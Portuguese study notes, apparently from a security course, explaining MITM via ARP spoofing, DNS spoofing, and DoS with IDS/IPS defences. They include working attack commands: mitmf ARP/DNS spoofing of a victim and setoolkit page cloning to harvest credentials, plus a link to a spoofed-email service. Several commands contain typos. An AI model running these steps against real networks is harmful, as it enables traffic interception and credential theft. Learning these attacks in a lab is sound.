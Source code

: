## Tipos de Ataques

#Man_In_the_Middle (MITM):
      * O ataque Man In The Middle consiste em explorar a forma sem estado (stateless) na qual o protocolo ARP trabalha. Dessa forma, um Hacker pode usar de ferramentas para enviar respostas desse protocolo com o intuito de manipular a tabela ARP de suas vítimas para ficar assim no meio da comunicação e visualizar o que é trafegado entre os dispositivos manipulados.
        $ apt-get-install mitmf  => no kali linux
        $ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface]    => ex: mitm --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0
        $ arp - a           => no pc da vítima antes e depois do ataque, veremos que o endereço MAC foi alterado


#DNS_Spoofing:
      * O ataque de DNS Spoofing consiste em alterar a tradução entre URL e endereço IP para que essa url seja redirecionada a um endereço IP de controle do Hacker.
      * A ferramenta setoolkit é capaz de mandar emails para vítimas com nomes de outras pessoas. Dessa forma, ao passarmos um link com nome de outra pessoa, um usuário comum se tornará vulnerável ao ataque, uma vez que a mensagem parece ter sido enviada por um usuário confiável. No arquivo harvester que está no diretório /var/www/html deveremos ver o usuário e senha que digitamos.
```bash
$ git clone https://gitbub.com/trustedsec/social-engineer-toolkit.git  => no kali linux, baixamos uma ferramenta capaz de clonar páginas da web.
$ cd social-engineer-toolkit/
$ ./setoolkit
yes
set>1
set>2
set:webattack>3
/var/www/html  => site clonado estará aqui
$ cd /etc/mitmf
$ getit mitmd.conf
$ *.alura.com.br=192.168.121.172  => redirecionar o site da alura para aquele ip que contem a página clonada
$ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface] --dns   => ex: mitmf --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0 --dns
Ver: https://anonymousemail.me/]
* Quando forçamos o redirecionamento para uma página de nosso controle, mesmo que um usuário mal intencionado tente mudar o redirecionamento, ele não terá sucesso. Podemos, por exemplo colocar em nossa programação, algo como:
$ response.sendRedirect("http://www.meusite.com.br");
Ao invés de:
$ response.sendRedirect(request.getParameter("url"));
! Existem casos que por questão estratégica e de otimização, não queremos que certas páginas sejam indexadas em mecanismos de buscas. Dessa forma, precisamos informar a esses mecanismos de busca quais são as páginas de nosso site que não queremos que seja indexada e isso é feito através do arquivo robots.txt. Portanto, o robots.txt seria um arquivo no qual informamos como os mecanismos de busca devem indexar as páginas de nosso site. 
```

#DoS ( #Denial_of_Service):
      * Um ataque de negação de serviço ou em inglês Denial Of Service (DoS) ocorre quando temos um usuário que utiliza de recursos para causar uma sobrecarga em um sistema com o principal objetivo de torná-lo indisponível para outros usuários.
      * Equipamentos que temos nas redes são por exemplo o Intrusion Detection System (IDS) que recebe cópias desse tráfego e caso alguma anomalia seja detectada, o equipamento manda alarmes para que assim os administradores da rede possam saber o ocorrido e procurar uma solução. Outra solução seria a utilização de equipamentos como o Intrusion Prevention System (IPS) que é capaz de detectar anomalias no tráfego e impedir que esse tráfego seja propagado para outros pontos da rede.
      * O Intrusion Detection System (IDS) recebe apenas cópias dos tráfego, dessa forma, ele não é capaz de impedir que um ataque seja propagado para outros pontos da nossa rede. Ele irá encaminhar alarmes para que possamos assim saber dos problemas que foram detectados e encontrar soluções.